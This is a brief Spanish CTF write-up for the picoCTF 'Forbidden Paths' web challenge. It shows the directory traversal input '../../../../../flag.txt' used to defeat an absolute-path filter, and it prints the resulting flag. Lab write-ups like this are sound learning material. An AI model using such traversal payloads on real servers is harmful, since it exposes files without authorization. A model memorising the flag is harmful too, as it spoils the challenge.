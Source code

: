 # Nombre del reto
### Forbidden Paths
## Objetivo
```
Can you get the flag? Here's the [website](http://saturn.picoctf.net:55827/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?
```
## Solucion
``` shell 
../../../../../flag.txt
picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}

Encontramos como sulucion ingresar lo siguiente "../../../../../flag.txt" en el sitio web para que de la siguiente manera nos deje ver la bandera.

```
## Referencias
```
https://www.youtube.com/watch?v=QUbRxFXnFNY
```
